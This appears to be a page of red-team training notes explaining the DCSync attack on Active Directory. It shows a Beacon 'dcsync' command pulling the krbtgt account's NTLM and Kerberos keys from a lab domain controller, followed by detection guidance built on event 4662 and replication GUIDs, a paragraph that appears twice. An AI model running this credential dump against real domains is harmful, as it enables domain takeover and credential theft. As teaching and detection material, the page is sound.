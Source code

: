 
Domain controllers in a forest or domain frequently replicate data between themselves.  For instance, when a new user is created, the request is serviced by one domain controller (usually the closest one based on how the sites are architected).  Information about that new user is then replicated to all of the other DCs in that domain via the [Directory Replication Service](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) (DRS) protocol.

DCSync is a technique [[T1003.006](https://attack.mitre.org/techniques/T1003/006/)] where an adversary leverages this same protocol to pull replication data, specifically usernames and password hashes, from a domain controller.  This requires access as a domain or enterprise admin, or a domain controller computer account.

This capability is built into tools such as Mimikatz's `lsadump::dcsync` command.  Beacon also provides a `dcsync` alias which is a wrapper around Mimiktaz.  The adversary is free to pull any (or all) data from a DC, however a common target is the _krbtgt_ account.  Recall from the [Kerberos chapter](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=674b79df7385fdbe1c0e7737) that the secret (password hash) for this account is used to encrypt and sign TGTs.  Therefore, once an adversary possesses this hash, they can forge 'legitimate' (or at least, valid) TGTs for any user in the domain.

```powershell
beacon> dcsync contoso.com CONTOSO\krbtgt

[DC] 'contoso.com' will be the domain
[DC] 'lon-dc-1.contoso.com' will be the DC server
[DC] 'CONTOSO\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 24/01/2025 13:50:53
Object Security ID   : S-1-5-21-3926355307-1661546229-813047887-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 2d454c2120b54890b3db65406e5a5974
    ntlm- 0: 2d454c2120b54890b3db65406e5a5974
    lm  - 0: 6666c48c4b440676cfda7be586409948

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 1a8b1df83c2cdbeadba591130490e21d

* Primary:Kerberos-Newer-Keys *
    Default Salt : CONTOSO.COMkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 512920012661247c674784eef6e1b3ba52f64f28f57cf2b3f67246f20e6c722c
      aes128_hmac       (4096) : 90e173c1fedcdfeaeddb07e695b75cfa
      des_cbc_md5       (4096) : 2f2a8f347fdf94f1
```

Because DRS is legitimately used, its mere presence does not constitute a breach in the environment.  Defenders must look for anomalous replication requests that stand out from the norm, for example those that originate from IPs other than known domain controllers.

When Directory Service Access auditing is enabled, these replications are logged as 4662 events.  The identifying GUID is `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` for **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All**, or `89e95b76-444d-4c62-991a-0facbeda640c` for **DS-Replication-Get-Changes-In-Filtered-Set**.

# _OPSEC Considerations_

Because DRS is legitimately used, its mere presence does not constitute a breach in the environment.  Defenders must look for anomalous replication requests that stand out from the norm, for example those that originate from IPs other than known domain controllers.

When Directory Service Access auditing is enabled, these replications are logged as 4662 events.  The identifying GUID is `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` for **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All**, or `89e95b76-444d-4c62-991a-0facbeda640c` for **DS-Replication-Get-Changes-In-Filtered-Set**.

![[Pasted image 20250724120150.png]]
